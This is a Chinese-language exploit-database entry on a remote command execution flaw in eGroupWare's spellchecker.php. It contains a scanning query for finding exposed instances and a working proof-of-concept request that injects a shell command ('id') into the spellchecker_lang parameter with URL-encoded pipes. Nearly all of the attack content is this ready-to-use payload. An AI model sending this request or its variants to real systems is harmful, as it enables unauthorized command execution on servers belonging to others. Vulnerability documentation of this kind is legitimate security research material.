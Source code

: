 # eGroupWare spellchecker.php 远程命令执行漏洞

## 漏洞描述

*eGroupWare*是一个多用户，在以PHP为基础的API上的定制集为基础开发的，以WEB为基础的工作件套装，其中 spellchecker.php 文件中存在命令执行漏洞

## 漏洞影响

<a-checkbox checked>eGroupWare</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="EGROUPWARE-产品"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1629087827840-2daaeca6-8c17-48dd-bbb4-5a7f4746b181.png)

验证POC

```bash
/egroupware/phpgwapi/js/fckeditor/editor/dialog/fck_spellerpages/spellerpages/server-scripts/spellchecker.php?spellchecker_lang=egroupware_spellchecker_cmd_exec.nasl%7C%7Cid%7C%7C
```

![img](/assets/PeiQi-Wiki/img/1629088046554-f44013d6-babd-4708-bd9b-ce93b4fbd12a.png)


